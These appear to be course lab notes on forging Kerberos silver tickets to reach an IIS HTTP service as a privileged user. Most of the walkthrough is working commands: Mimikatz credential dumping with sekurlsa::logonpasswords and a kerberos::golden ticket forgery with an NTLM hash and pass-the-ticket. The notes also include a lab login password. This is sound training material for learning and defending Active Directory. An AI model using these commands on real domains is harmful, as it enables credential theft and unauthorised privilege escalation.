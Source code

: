 ```
	- Remembering the inner workings of the Kerberos authentication, the application on the server executing in the context of the service account checks the user's permissions from the group memberships included in the service ticket. However, the user and group permissions in the service ticket are not verified by the application in a majority of environments. In this case, the application blindly trusts the integrity of the service ticket since it is encrypted with a password hash that is, in theory, only known to the service account and the domain controller.
```

- _Privileged Account Certificate (PAC) validation_
    
    - If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller.
        - Fortunately for this attack technique, service applications rarely perform PAC validation.
    - As an example, if we authenticate against an IIS server that is executing in the context of the service account iis_service, the IIS application will determine which permissions we have on the IIS server depending on the group memberships present in the service ticket.
    - With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource (in our example, the IIS application) with any permissions we desire. This custom-created ticket is known as a silver ticket3 and if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.
    - In this section's example, we'll create a silver ticket to get access to an HTTP SPN resource. As we identified in the previous section, the iis_service user account is mapped to an HTTP SPN. Therefore, the password hash of the user account is used to create service tickets for it. For the purposes of this example, let's assume we've identified that the iis_service user has an established session on CLIENT75.
- Need 3 things to create a silver ticket:
    
    - SPN password hash
    - Domain SID
    - Target SPN
- Example:
    
    - Set up:
        - Let's get straight into the attack by connecting to CLIENT75 via RDP as jeff with the password HenchmanPutridBonbon11.
    - Start:
    - Confirm that our current user has no access to the resource of the HTTP SPN mapped to iis_service.
        - `iwr -UseDefaultCredentials http://web04`
    - Since we are a local Administrator on this machine where iis_service has an established session, we can use Mimikatz to retrieve the SPN password hash (1st info we need)
        - Start PowerShell as Administrator and launch **Mimikatz**:
        - `.\mimikatz
        - `privilege::debug`
        - `sekurlsa::logonpasswords`
    - We can enter **whoami /user** to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain. (2nd info we need)
        - `whoami /user`
        - output -> [S-1-5-21-1987370270-658905905-1781884369]-1105  
            -omit RID
    - We'll target the HTTP SPN resource on WEB04 (HTTP/web04.corp.com:80) (3rd info we need)
- Command:
    
    - `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`
        
        - **kerberos::golden** -> module
            
        - **/sid:** -> domain SID
            
        - **/domain:** -> domain name
            
        - **/target:** -> target where the SPN runs
            
        - **/service:** -> SPN protocol
            
        - **/rc4:** -> NTLM hash of the SPN
            
        - **/ptt** -> allows us to inject the forged ticket into memory
            
        - **/user:** -> an existing domain user
            
        - From the perspective of the IIS application, the current user will be both the built-in local administrator ( Relative Id: 500 ) and a member of several highly-privileged groups, including the Domain Admins group ( Relative Id: 512 )
            
    - Confirm ticket ready to use in memory  
        -`klist`
        
    - Verify
        
        - `iwr -UseDefaultCredentials http://web04`
    - To help find flag add:
        
        - `"| findstr /i OS{"`
        - Actually:
            - `PS C:\Tools> (iwr -UseDefaultCredentials http://web04).content/ | findstr /i "OS{"` <-- display web content through HTTP request
- [Note]:
    
    - It's worth noting that we performed this attack without access to the plaintext password or password hash of this user.
    - Once we have access to the password hash of the SPN, a machine account, or user, we can forge the related service tickets for any users and permissions.
    - Microsoft created a security patch to update the PAC structure. With this patch in place, the extended PAC structure field PAC_REQUESTOR needs to be validated by a domain controller. This mitigates the capability to forge tickets for non-existent domain users if the client and the KDC are in the same domain. Without this patch, we could create silver tickets for domain users that do not exist.